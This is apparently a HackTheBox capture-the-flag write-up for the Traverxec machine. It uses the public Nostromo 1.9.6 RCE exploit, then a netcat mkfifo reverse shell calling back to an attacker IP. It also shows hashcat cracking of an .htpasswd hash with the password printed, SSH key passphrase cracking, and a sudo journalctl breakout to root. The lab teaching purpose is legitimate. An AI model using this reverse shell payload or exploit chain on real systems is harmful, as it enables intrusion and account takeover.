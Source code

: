 # <center>Traverxec  - HackTheBox WriteUp</center>
![info_card](/images/traverxec/info_card.png)
## Enumeration & Information Gathering 

#### Scanning
>Nmap done: 1 IP address (0 hosts up) scanned in 2.14 seconds
root@kali:/var/www/html/pub# nmap -T4 10.10.10.165
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-11 10:39 EDT
Nmap scan report for 10.10.10.165
Host is up (0.054s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 6.13 seconds
#### Service Enumeration

Home page:
![home_page](/images/traverxec/home_page.png)

By visiting pages on the site such as robots.txt, the veriosn of the HTTP App is revealed

![version](/images/traverxec/version.png)

Exploit search: nostromo 1.9.6 githhib
## Exploitation
https://github.com/rptucker/CVE-2019-16278-Nostromo_1.9.6-RCE/blob/master/CVE-2019-16278.py

Let's try a executing a command:

```
python nostromo.py -t '10.10.10.165' -p 80 -c 'whoami'
```

Now on to Reverse Shell

#### Foothold

Set up a listener:
```
nc -lnvp 1234
```

Grab netcat reverse shell payload from Pentest Monkey a use as payload:

```
python nostromo.py -t '10.10.10.165' -p 80 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.21 1234 >/tmp/f'
```
#### Post Exploitation Enumeration

Enumerating the file system of Nostromo

![post enum](/images/traverxec/post enum.png)

>www-data@traverxec:/var/nostromo/conf$ cat .htpasswd
> david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/

Cracking the passowrd using hashcat

```
hashcat64.exe -m 500 $1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/ c:\Users\admin\Downloads\rockyou.txt --force
```

![cracked](/images/traverxec/cracked.png)
david:Nowonly4me

Tried loging in via SSH with David User credentials but the password is not accepted.
checking SSHD config we see that password authentication is not allowed.We therefore need to find a private key. 

![sshd_config](/images/traverxec/sshd_config.png)

After much enumeration we go back to the nhttpd.conf file and remember that home dir is set to **/home** and **public_www**. The **serveradmin** is also set as **david@traverxec.htb** therefore we can probably navigate to david's home directory.

Turns out that we can, but we can't access files such as .bashrc or .ssh folder

![david_home](/images/traverxec/david_home.png)

We try navigating to the public_www folder on the shell and we are successful

We grab the gz file, extract it and ssh with the private key.

![ssh_gz](/images/traverxec/ssh_gz.png)

But we are blocked by a passphrase and the initial password **Nowonly4me** doesn't work here 

Cracking SSH passphrase with John
![crack_ssh](/images/traverxec/crack_ssh.png)


## Privilege Escalation

SSH using David's credentials we are able to Login.
Enumerating the home directory we find a shell script that runs a journalctl with sudo. 
![server_status](/images/traverxec/server_status.png)

running the command as is in the script works okay

This probably helps us realize that we have sudo NOPASSWORD set for running that command, we couldn't see that  using sudo -l becase we still don't know the user pass for David.

Next we visit GTFOBin https://gtfobins.github.io/gtfobins/journalctl/

We see we can break out of the binary much like the less/nano way
To do this we can either make our terminal window very small to force break output of journalctl OR we can just resize our terminal using `stty rows [number]`

Run the command and enter !/bin/sh

![root](/images/traverxec/root.png)

**Extra:** 

Top References:
1.    https://github.com/rptucker/CVE-2019-16278-Nostromo_1.9.6-RCE/blob/master/CVE-2019-16278.py

2.    https://gtfobins.github.io/gtfobins/journalctl/
